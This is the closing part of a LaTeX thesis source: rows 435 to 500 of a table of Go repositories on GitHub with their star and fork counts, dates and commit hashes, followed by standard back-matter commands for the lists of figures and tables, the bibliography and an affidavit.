    435 &                              kubesphere/kubesphere &   3450 &    525 & 2020-05-28 &  ea2e87697d \\
    436 &                                         hoisie/web &   3448 &    785 & 2020-01-22 &  a498c022b2 \\
    437 &                              michenriksen/aquatone &   3444 &    630 & 2020-05-13 &  854a5d56fb \\
    438 &                                    dvyukov/go-fuzz &   3443 &    205 & 2020-03-18 &  be3528f3a8 \\
    439 &                                    google/gopacket &   3433 &    687 & 2020-05-26 &  a83d5be3a7 \\
    440 &                                    Tencent/bk-cmdb &   3428 &   1121 & 2020-05-28 &  011400903f \\
    441 &                               kubernetes/client-go &   3422 &   1464 & 2020-05-27 &  f099a72e14 \\
    442 &                               ant0ine/go-json-rest &   3417 &    381 & 2019-08-26 &  ebb33769ae \\
    443 &                              mozilla-services/heka &   3408 &    559 & 2019-03-27 &  278dd3d596 \\
    444 &                                          baidu/bfe &   3405 &    581 & 2020-05-27 &  5f85b4cf4b \\
    445 &                                igrigorik/ga-beacon &   3404 &    341 & 2018-10-02 &  3a9a02fc0f \\
    446 &                                    gopasspw/gopass &   3396 &    286 & 2020-05-28 &  0549c36ab0 \\
    447 &                                letsencrypt/boulder &   3393 &    417 & 2020-05-28 &  286271f0db \\
    448 &                                         rs/zerolog &   3386 &    212 & 2020-05-28 &  7825d86337 \\
    449 &                                        uber/kraken &   3385 &    205 & 2020-05-26 &  1c0ee7ab82 \\
    450 &                                  jwilder/dockerize &   3378 &    243 & 2020-03-24 &  9ce2e80619 \\
    451 &                             mitchellh/mapstructure &   3374 &    378 & 2020-05-21 &  20e21c67c4 \\
    452 &                                  gorgonia/gorgonia &   3373 &    301 & 2020-05-24 &  5fb5944d4a \\
    453 &                                    codegangsta/gin &   3370 &    277 & 2020-04-20 &  cafe2ce989 \\
    454 &                                manifoldco/promptui &   3369 &    157 & 2020-05-17 &  e15db71081 \\
    455 &                                       go-gorp/gorp &   3361 &    362 & 2020-03-29 &  03c0a1b169 \\
    456 &                        ansible-semaphore/semaphore &   3360 &    482 & 2020-02-10 &  3db758c066 \\
    457 &                               DisposaBoy/GoSublime &   3351 &    315 & 2020-05-15 &  bd0163d030 \\
    458 &                                          vugu/vugu &   3331 &    132 & 2020-05-11 &  895fa1f82f \\
    459 &                                  heroiclabs/nakama &   3325 &    355 & 2020-05-28 &  8e8e742809 \\
    460 &                           graph-gophers/graphql-go &   3324 &    350 & 2020-05-28 &  dae41bde9e \\
    461 &                                        tsuru/tsuru &   3323 &    450 & 2020-05-28 &  05c44a1bbf \\
    462 &                                  ffhelicopter/Go42 &   3321 &    468 & 2020-05-13 &  ad6fd3cfde \\
    463 &                                         burke/zeus &   3310 &    232 & 2019-10-22 &  a77e410c21 \\
    464 &                                        tinode/chat &   3309 &    655 & 2020-05-28 &  8c524edf2c \\
    465 &                              GoAdminGroup/go-admin &   3308 &    592 & 2020-05-28 &  d2e4932b28 \\
    466 &                                        OWASP/Amass &   3306 &    588 & 2020-05-26 &  d69ce878a2 \\
    467 &                                     variadico/noti &   3305 &     93 & 2020-01-31 &  0538ed50e6 \\
    468 &                                    ledisdb/ledisdb &   3297 &    377 & 2020-05-10 &  d35789ec47 \\
    469 &                              gilbertchen/duplicacy &   3296 &    241 & 2020-05-11 &  76f1274e13 \\
    470 &                                      nuclio/nuclio &   3283 &    326 & 2020-05-28 &  59cab8961c \\
    471 &                                        tianon/gosu &   3278 &    207 & 2020-05-03 &  ad4ec33beb \\
    472 &                                     adtac/commento &   3273 &    144 & 2020-05-22 &  326601394a \\
    473 &                                  meshbird/meshbird &   3270 &    199 & 2020-03-03 &  de2c7fe497 \\
    474 &                               gwuhaolin/lightsocks &   3255 &    761 & 2020-04-15 &  7e9e1a234b \\
    475 &                                     securego/gosec &   3252 &    245 & 2020-05-28 &  6a130d55b3 \\
    476 &                           astaxie/go-best-practice &   3249 &    695 & 2016-10-19 &  67aa4052f1 \\
    477 &                            asticode/go-astilectron &   3239 &    220 & 2020-05-27 &  3961c75232 \\
    478 &                                   hybridgroup/gocv &   3234 &    481 & 2020-05-27 &  df73d54467 \\
    479 &                                     streadway/amqp &   3227 &    480 & 2020-05-12 &  1c71cc93ed \\
    480 &                                  dominikh/go-tools &   3210 &    196 & 2020-05-16 &  1dc5519e1d \\
    481 &                                    BurntSushi/toml &   3205 &    406 & 2020-05-23 &  3012a1dbe2 \\
    482 &                                     hasura/gitkube &   3204 &    154 & 2020-04-09 &  ec3d06703f \\
    483 &                                        OJ/gobuster &   3189 &    549 & 2020-05-08 &  92ffe359d2 \\
    484 &                                     davyxu/cellnet &   3187 &    744 & 2020-05-25 &  a12953d6f6 \\
    485 &                                bitly/go-simplejson &   3186 &    440 & 2020-05-12 &  39a59b1b28 \\
    486 &                           AsynkronIT/protoactor-go &   3182 &    338 & 2020-03-17 &  c483abfa40 \\
    487 &                                         ha/doozerd &   3181 &    261 & 2016-03-16 &  8adec5411b \\
    488 &                              kubernetes/autoscaler &   3178 &   1424 & 2020-05-28 &  a00bf59159 \\
    489 &                            prometheus/alertmanager &   3169 &   1191 & 2020-05-28 &  97bd078441 \\
    490 &                                          gobwas/ws &   3167 &    206 & 2020-03-23 &  d1714d5c97 \\
    491 &                                 kgretzky/evilginx2 &   3164 &    602 & 2020-05-26 &  fe4e343143 \\
    492 &                               fullstorydev/grpcurl &   3160 &    144 & 2020-05-15 &  44547153b3 \\
    493 &                                      gomods/athens &   3159 &    367 & 2020-05-26 &  28d606947a \\
    494 &                                       schollz/croc &   3151 &    155 & 2020-05-18 &  0377223a67 \\
    495 &                                      nytimes/gizmo &   3145 &    205 & 2020-05-28 &  3868112445 \\
    496 &                             disintegration/imaging &   3089 &    271 & 2020-05-26 &  879073f233 \\
    497 &                                            gogf/gf &   3087 &    450 & 2020-05-28 &  269378aa0d \\
    498 &                              googleforgames/agones &   3082 &    356 & 2020-05-28 &  d017250c43 \\
    499 &                       kubernetes-sigs/external-dns &   3078 &    926 & 2020-05-28 &  deaeca2ab1 \\
    500 &                                   gwuhaolin/livego &   3075 &    902 & 2020-05-20 &  bf65635cef \\
\end{longtable}


%% list of figures
\newpage
\renewcommand{\listfigurename}[0]{List of Figures}
\addcontentsline{toc}{chapter}{\listfigurename}
\listoffigures

%% list of tables
\newpage
\renewcommand{\listtablename}[0]{List of Tables}
\addcontentsline{toc}{chapter}{\listtablename}
\listoftables

%% bibliography
\newpage
\singlespacing
\renewcommand{\bibname}{References}
\addcontentsline{toc}{chapter}{\bibname}
\bibliographystyle{unsrt}
\bibliography{config/references}

%% declaration (no help etc.)
\affidavit

\end{document}
